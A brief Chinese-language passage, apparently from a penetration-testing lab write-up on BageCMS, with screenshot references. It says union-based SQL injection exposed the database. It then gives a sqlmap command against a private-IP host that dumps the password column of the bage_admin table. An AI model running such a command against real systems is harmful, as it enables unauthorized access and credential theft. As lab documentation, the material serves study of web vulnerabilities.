![image-20231201111908004](images/15.png)

直接用sqlmap探测试试

![image-20231201115259092](images/16.png)

直接联合注入就拿到了数据库，接下来试试能不能在数据库里面通过sql注入拿到一些敏感内容，例如账号密码

```
sqlmap -u "http://192.168.22.22/index.php?r=vul&keyword=1" -D bagecms -T bage_admin -C password --dump --batch
```
